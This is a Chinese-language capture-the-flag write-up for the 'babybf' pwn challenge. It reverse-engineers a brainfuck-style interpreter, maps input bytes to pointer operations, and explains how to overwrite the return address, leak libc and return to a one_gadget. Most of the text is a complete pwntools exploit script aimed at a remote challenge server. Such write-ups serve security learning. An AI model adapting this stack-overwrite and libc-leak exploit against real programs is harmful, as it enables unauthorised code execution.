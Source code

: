 # babybf  
### 题目分析
保护全开，输入数字开辟堆，往堆里输内容，第一眼让人觉得是堆题，但其实是栈。  
![](./pics/body.png)  
输入的内容会根据数组0x2020进行处理，以dw打开这段地方，发现是大量数字。  
![](./pics/0x2020.png)  
输入的每一个字节都会根据这个数组替换成对应的0-9的数字。  
并且依次对应这些数字按序完成对应函数的操作。  
其中比较重要的函数有以下几个：  
![](./pics/fun1.png)  
![](./pics/fun3.png)  
![](./pics/fun4.png)  
![](./pics/fun5.png)  
![](./pics/fun7.png)  
![](./pics/fun9.png)  
其余几个函数较为复杂且我最后也没用到  
进入这些函数后栈里长这样。  
![](./pics/stack.png)  
其中红框即为rbp-0xa8，也就是说可以通过控制这个字段进行各种操作。  

    对应值  输入数  操作
    0       \x3c    
    1       \x3e    ++*
    2       \x2b    ++**
    3       \x2d    --**
    4       \x2e    putchar
    5       \x2c    getchar
    6       \x5b    
    7       \x5d    
    8       \x00    free
    9       \x01    
上述对应不唯一。  
发现对该字段的操作只能使其对应的值越来越大，泄露libc后无法返回，因此考虑先更改rbp下面的返回地址，并获得libc，返回后第二次进去该函数时就能把rbp后改为one_gadget了。  
### 完整exp

```
from pwn import *
"""
    0   \x3c    
    1   \x3e    ++*
    2   \x2b    ++**
    3   \x2d    --**
    4   \x2e    putchar
    5   \x2c    getchar
    6   \x5b    
    7   \x5d    
    8   \x00    free
    9   \x01    
"""
# p=process('./chall')
p=remote("47.108.29.107",10116)
pause()
elf = context.binary = ELF("./chall")
libc = elf.libc
context.log_level = 'debug'
container=b"\x3c\x3e\x2b\x2d\x2e\x2c\x5b\x5d\x00\x01"
one_gadget=0x4f302
def play(size,content):
    p.sendlineafter(b'len> ',str(size).encode())
    p.sendlineafter(b'code> ',content)
def getpayload(ops):
    payload=b""
    for i in ops:
        payload+=p8(container[ord(i)-ord('0')])
    return payload
# gdb.attach(p,'b *$rebase(0x16F4)')
# gdb.attach(p,'b *$rebase(0x195c)')
# gdb.attach(p,'b getchar')
play(0x500,getpayload("11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"59"+"11111111"+"11111111"+"11111111"+"11111111"+"41414141414"+"111"+"3"+"7"+"5"))
# pause()
context.log_level = 'debug'
pause() 

p.send(b'\xab')
pause()
__libc_start_main=u64(p.recv(6).ljust(8,b"\x00"))-231
print(hex(__libc_start_main))
libc_base=__libc_start_main-libc.sym.__libc_start_main
print(hex(libc_base))
print(hex(libc_base+one_gadget))
p.sendline(b'')
pause()
# gdb.attach(p,'b *$rebase(0x195c)')
play(0x500,getpayload("11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"5151515151519"))
p.sendline(p64(libc_base+one_gadget))

p.interactive()
```